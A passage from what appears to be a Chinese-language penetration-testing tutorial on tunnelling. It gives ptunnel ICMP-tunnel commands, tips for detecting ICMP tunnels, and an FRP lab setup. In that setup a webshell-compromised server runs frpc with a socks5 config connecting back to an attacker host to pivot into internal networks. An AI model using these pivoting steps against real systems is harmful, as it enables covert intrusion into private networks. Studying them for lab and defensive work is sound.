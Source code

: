 ```sh
# 在Linux的 web服务器上操作
ptunnel -x <连接密码>

# 在攻击上的操作
ptunnel -p <流量转发服务的iP> -lp <本地监听的端口> -da <转发的目标机器的IP> -dp <转发的目标机器的端口> -x <连接密码>
```

#### 防御ICMP隧道

- 检测同一来源的ICMP数据包的数量。使用ICMP隧道在短时间产生大量数据包
- 注意那些Payload大于64bit的ICMP数据包
- 寻找响应和请求不一致的数据包
- 检查ICMP数据包的协议标签

## 传输层隧道技术

### Frp隧道技术

#### 模拟网络拓扑环境

| 机器编号 | IP地址                        | 机器性质       | 描述                                                         |
| -------- | ----------------------------- | -------------- | ------------------------------------------------------------ |
| A1       | 10.203.87.119                 | 公网攻击服务器 | 一个具有公网IP且拥有绝对权限的Linux服务器                    |
| V1       | 10.203.87.107 192.168.22.22   | 内网服务器     | 对公网开放但无公网IP，80端口存在Web服务，路由课抵达192.168.22.0段 |
| V2       | 192.168.22.129 192.168.33.128 | 内网服务器     | 不对公网开放，路由可抵达192.168.22.0和192.168.33.0段。       |
| V3       | 192.168.33.33                 | 内网服务器     | 不对公网开放，路由可抵达192.168.33.0段。                     |

#### 模拟实际操作

##### 场景一:创建一层代理

**假设此时已经获取`V1`的`webshell`，准备将V1上的流量代理到本地**

首先，查看攻击机`A1`的`frps.ini`配置文件，在攻击机开始监听

![image-20210908214510265](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908214510265.png)

将`frpc`和`frpc.ini`上传到V1中,并将权限修改为777

![image-20210908214812675](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908214812675.png)

修改`frpc.ini`的相关配置

```
[common]
server_addr = 10.203.87.119 //攻击机IP
server_port = 7000 //攻击机frp服务运行端口

[socks5] // 标识 可以 随便起名 会在 服务端显示
type = tcp  //选择类型
plugin = socks5 // 插件 定义为 socks5
remote_port = 10088  // 转发到攻击机的端口，也是proxychains需要代理的端口
```

